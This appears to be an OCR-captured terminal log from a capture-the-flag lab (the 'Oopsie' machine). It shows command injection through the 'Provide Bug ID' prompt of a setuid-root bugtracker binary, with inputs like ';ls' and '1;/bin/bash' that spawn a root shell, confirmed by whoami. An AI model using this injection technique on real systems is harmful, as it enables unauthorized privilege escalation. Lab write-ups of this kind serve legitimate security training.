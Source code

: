 robert@oopsie:/var/www/html/cdn-cgi/login$ ls -l /usr/bin/bugtracker
ls -l /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
robert@oopsie:/var/www/html/cdn-cgi/login$ 





robert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ;ls
;ls
---------------

cat: /root/reports/: Is a directory
admin.php  db.php  index.php  script.js

robert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1;/bin/bash
1;/bin/bash       <<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
root@oopsie:/var/www/html/cdn-cgi/login# whoami
whoami
root
root@oopsie:/var/www/html/cdn-cgi/login# obert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------
